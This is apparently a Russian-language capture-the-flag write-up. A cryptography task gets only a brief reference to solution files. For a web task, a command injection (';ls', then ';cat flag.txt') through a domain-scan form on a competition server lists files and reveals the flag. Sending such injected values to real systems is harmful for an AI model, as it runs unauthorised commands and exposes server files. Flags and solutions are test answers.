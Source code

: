 ### 1 - криптография

   Решение в main.py, код шифратора в encrypt
   Ответ в secrets.txt, правда, кажется, там только часть флага :(

### 2 - веб

1. Пробуем ввести в поле ввода ";ls" - http://seoscan.semrush.work:8080/?domain=%3Bls
   Results: 
   BUILDING.txt CONTRIBUTING.md LICENSE NOTICE README.md RELEASE-NOTES RUNNING.txt bin conf flag.txt include lib logs native-jni-lib python-seo-analyzer-4.0.2 python-seo-analyzer-4.0.2.7z temp webapps webapps.dist work 
2. Вводим ";cat flag.txt" - http://seoscan.semrush.work:8080/?domain=%3Bcat+flag.txt
   Results:
   sem{3x3cu73_1s_v3ry_v333333ry_uns4f3} 

